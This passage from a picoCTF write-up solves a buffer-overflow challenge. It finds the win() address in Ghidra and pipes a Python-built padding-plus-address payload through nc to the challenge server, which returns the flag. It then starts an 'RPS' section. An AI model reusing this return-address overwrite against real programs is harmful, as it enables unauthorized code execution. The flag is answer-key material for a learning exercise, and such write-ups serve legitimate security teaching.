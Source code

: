 From Ghidra, the `win()` function is at address 0x080491f6 .

![](Images/ghidra-win.png)

Sending in little endian format, we obtained the flag.

```sh
>> python2 -c "print 'A'*44+'\xf6\x91\x04\x08'" | nc saturn.picoctf.net 54756
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_2e53b270} 
```

## RPS

![](Images/Q-RPS.png)
